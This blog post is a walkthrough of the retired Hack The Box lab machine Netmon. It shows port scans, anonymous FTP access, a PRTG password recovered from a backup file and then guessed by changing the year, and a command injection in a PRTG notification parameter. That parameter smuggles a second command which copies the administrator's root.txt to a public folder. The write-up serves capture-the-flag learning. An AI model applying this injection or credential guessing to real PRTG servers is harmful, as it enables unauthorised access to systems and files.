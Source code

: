 ```yaml
---
layout: post
title: "Netmon: Hack The Box Walkthrough"
date: 2019-06-30 05:27:39 +0000
last_modified_at: 2019-06-30 05:37:10 +0000
category: Walkthrough
tags: ["Hack The Box", Netmon, retired]
comments: false
image:
  feature: netmon-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/photos/computer-searches-internet-chat-1172404/
---
```


This post documents the complete walkthrough of Netmon, a retired vulnerable [VM][1] created by [mrb3n][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Netmon is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.152 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-03-10 13:41:15 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49666/tcp on 10.10.10.152
Discovered open port 49664/tcp on 10.10.10.152
Discovered open port 49677/tcp on 10.10.10.152
Discovered open port 49667/tcp on 10.10.10.152
Discovered open port 49665/tcp on 10.10.10.152
Discovered open port 52337/tcp on 10.10.10.152
Discovered open port 5985/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Discovered open port 47001/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 49668/tcp on 10.10.10.152
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 53099/tcp on 10.10.10.152
```

Whoa. `masscan` finds many open ports. Let's do one better with `nmap` scanning the discovered ports to see what services are available.

```
# nmap -n -v -Pn -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49677,52337,53099 -A --reason 10.10.10.152 -oN nmap.txt
...
PORT      STATE  SERVICE      REASON          VERSION
21/tcp    open   ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open   http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
52337/tcp closed unknown      reset ttl 127
53099/tcp closed unknown      reset ttl 127
...
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-10 13:48:31
|_  start_date: 2019-03-10 13:32:38
```

Since anonymous FTP login is allowed, let's go with that first.

## File Transfer Protocol

To my pleasant surprise, `C:\Users\Public` is available.

<a class="image-popup">
![2f8bf31c.png](/assets/images/posts/netmon-htb-walkthrough/2f8bf31c.png)
</a>

And guess what, `user.txt` is here!

<a class="image-popup">
![90a90b90.png](/assets/images/posts/netmon-htb-walkthrough/90a90b90.png)
</a>

## PRTG Network Monitor

Moving on to the `http` service, this is how it looks like.

<a class="image-popup">
![542fe300.png](/assets/images/posts/netmon-htb-walkthrough/542fe300.png)
</a>

In conjuntion with the official security [advisory](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37) and the [location](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) of the various configuration files, I was able to uncover a plaintext password from the file below.

<a class="image-popup">
![adca4be4.png](/assets/images/posts/netmon-htb-walkthrough/adca4be4.png)
</a>

Here's the plaintext password.

<a class="image-popup">
![56c19c7a.png](/assets/images/posts/netmon-htb-walkthrough/56c19c7a.png)
</a>

And since, this is a backup and knowing many administrators simply increment the year for convenience's sake, the password may be `PrTg@dmin2019`. Let's give it a shot.

<a class="image-popup">
![3214f2a7.png](/assets/images/posts/netmon-htb-walkthrough/3214f2a7.png)
</a>

Awesome.

## PRTG < 18.2.39 Command Injection Vulnerability

During my research for vulnerability related to PRTG, I chanced upon this [blog](https://www.codewatch.org/blog/?p=453) discussing command injection vulnerability, with `SYSTEM` privileges no less.

Follow the instructions to create a notification with the following parameters.

```
test.txt; type c:\users\administrator\desktop\root.txt > c:\users\public\downloads\success.txt
```

Download `success.txt` from FTP and the content of `root.txt` is as follows.

<a class="image-popup">
![4de3a597.png](/assets/images/posts/netmon-htb-walkthrough/4de3a597.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/177
[2]: https://www.hackthebox.eu/home/users/profile/2984
[3]: https://www.hackthebox.eu/
